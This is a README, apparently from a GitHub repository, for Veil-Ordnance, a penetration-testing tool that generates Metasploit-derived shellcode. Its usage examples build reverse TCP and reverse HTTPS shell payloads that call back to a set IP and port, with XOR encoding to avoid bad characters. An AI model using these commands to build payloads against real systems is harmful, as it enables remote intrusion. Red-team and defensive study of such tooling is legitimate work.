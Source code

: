 Veil-Ordnance
======

Veil-Ordnance is designed to quickly generate shellcode that can be used for exploits or payloads.  The inspiration for this came after multiple discussions between @christruncer, @themightyshiv, and @harmj0y where we identified a need for a tool that generates shellcode, that won't change its output on us.  Rather than rely on a third party to do this, we decided we should write our own.

All payloads in this tool were ported from the Metasploit Framework.  There is no claim to being the original author of any of the payloads.  The awesome guys working on the Metasploit Project deserve all praise for writing the different payloads within this tool.  Their payloads were simply ported from Ruby to Python.


Usage:

./Veil-Ordnance.py -p rev_tcp --ip 192.168.63.149 --port 8675

Examples:

./Veil-Ordnance.py -p rev_https --ip 192.168.63.149 --port 443 -e xor -b \x00\x0a --print-stats


Thanks:
Thanks to the Metasploit team for all their hard work.  Allowing their code to be used by the community is awesome, and really appreciated.  Thanks to Jon Yates (@redbeardsec) for really helping to get my up to speed and providing his analysis on how payloads are generated.  Thanks to Justin Warner (@sixdub) for allowing me to include his shellcode encoder within Ordnance.


Call to Action:
We'd love for an additional encder, or more, to be added to Veil-Ordnance.  The more that can be added in/ported, the better coverage in ensuring that at least one encoder could be used to prevent any specific bad character.  If anyone is willing to port one, or send us a python version of their encoder, please hit us up, or send a pull request!  We'd be happy to give full credit to you.